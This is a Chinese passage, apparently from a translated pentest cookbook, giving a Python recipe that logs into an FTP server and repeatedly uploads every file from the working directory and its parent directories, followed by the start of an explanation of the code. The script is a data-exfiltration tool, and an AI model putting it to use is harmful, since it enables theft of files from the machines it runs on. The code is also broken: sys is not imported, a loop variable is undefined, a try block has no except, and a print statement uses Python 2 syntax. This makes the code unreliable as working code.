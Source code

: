 为此，您将需要一个正常运行的 FTP 服务器。我正在使用`vsftpd`，但您可以使用任何您喜欢的。您需要将凭据硬编码到脚本中（不建议）或者作为标志与凭据一起发送。

## 如何做...

我们将使用的脚本如下：

```py
from ftplib import FTP
import time
import os

user = sys.argv[1]
pw = sys.argv[2]

ftp = FTP("127.0.0.1", user, pw)

filescheck = "aa"

loop = 0
up = "../"

while 1:
  files = os.listdir("./"+(i*up))
  print files

  for f in files:
    try:
      fiile = open(f, 'rb')
      ftp.storbinary('STOR ftpfiles/00'+str(f), fiile)
      fiile.close()
    else:
      pass

  if filescheck == files:
    break
  else:
    filescheck = files
    loop = loop+1
    time.sleep(10)
ftp.close()
```

## 它是如何工作的...

像往常一样，我们导入我们的库并设置我们的变量。我们已将用户名和密码设置为`sys.argv`，以避免硬编码，从而暴露我们的系统：

```py
from ftplib import FTP
import time
import os

user = sys.argv[1]
pw = sys.argv[2]
```

